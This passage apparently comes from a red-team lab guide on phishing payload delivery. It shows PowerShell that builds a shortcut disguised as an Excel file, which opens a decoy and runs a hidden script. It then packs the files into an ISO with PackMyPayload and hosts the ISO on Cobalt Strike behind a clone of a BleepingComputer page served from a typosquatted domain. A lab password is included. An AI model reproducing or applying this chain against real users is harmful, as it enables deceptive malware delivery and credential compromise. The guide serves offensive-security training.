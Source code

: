 ## Trigger <a href="#trigger" id="trigger"></a>

1.  In PowerShell, create a shortcut that will execute the payload and open the decoy.

    ```powershell
    powershellTypeCopy$wsh = New-Object -ComObject WScript.Shell
    $lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
    $lnk.TargetPath = "%COMSPEC%"
    $lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
    $lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
    $lnk.Save()
    ```



## Container <a href="#container" id="container"></a>

1.  In Ubuntu (WSL), use PackMyPayload to package all the files into an ISO.

    ```ubuntu-nocolor
    python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
    ```



<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Delivery <a href="#delivery" id="delivery"></a>

1. Host the ISO on Cobalt Strike's built-in web server.
   1. Go to **Site Management > Host File**.
   2. File: _C:\Payloads\deals\deals.iso_
   3. Local URI: /deals.iso
   4. Local Host: www.bleepincomputer.com
   5. Click **Launch**.
2. Clone a legitimate web page (**Site Management > Clone Site**).
   1. Clone URL: https://deals.bleepingcomputer.com
   2. Local URI: /deals
   3. Local Host: www.bleepincomputer.com
   4. Attack: _deals.iso_
   5. Click **Clone**.
3. Switch over to [Workstation 1](https://labclient.labondemand.com/Instructions/c2f30abb-c977-4944-9bbd-9a8f83ee66c5) and login with Passw0rd!.